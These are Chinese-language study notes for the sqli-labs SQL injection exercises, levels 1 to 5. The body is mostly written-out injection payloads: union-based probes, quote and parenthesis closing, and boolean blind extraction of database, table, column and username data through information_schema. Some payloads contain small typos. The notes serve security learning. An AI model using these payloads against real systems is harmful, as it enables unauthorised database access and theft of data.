





首先熟悉基本的sql注入流程
[见](SQL.emind)

# less-1
传入参数id,单引号闭合
?id=-1' union select 1,2,3%23
# less-2
id=1 and 1=2测试为数字型注入
?id=1 order by 3%23列数为3
.......

# less-3
测试1'

原句应该为select * from .. where ($id)
报错处发现),那么需要闭合)
id=-1') order by 4 %23

# less-4
测试1'
没有报错
1"报错

试试1") %23闭合
?id=1") order by 4 %23 成功
# less-5

发现只会回显这个,需要盲注了时间,bool都可以
先用bool盲注
先查看一下版本号
1' and** left**(version,1)=5 %23

说明第一位是正确的

看一下数据库长度
1' and length(database())=8 %23
长度为8时正确

猜数据库第一位
1' and left(database(),1)>'a' %23
这里可以用二分法提高效率
数据库为security()

若是left被禁用还可以用 **substr()和ascii()**尝试,下面用来查表
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101 %23
查第二个字母改变substr(....,2,1)就可以了

那么如何查第二个表呢?
第一个表为limit 0,1
第二个表为limit 1,1

limit用法:
limit 0,1
第一个参数(从0开始)表示从第几行数据开始查，第二个参数表示查几条数据
limit 1 一个参数表示查几条数据

最终查到user表,下面再用正则regexp获取列
1' and 1=(select 1 from information_schema.columns where table_name='users' and table_name regexp % 27^us[a-z]' limit 0,1)--+
上述为查找user表下是否有us**的列

接下来用ord()和mid()查内容(没看懂)
1' and ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))= 68--+

#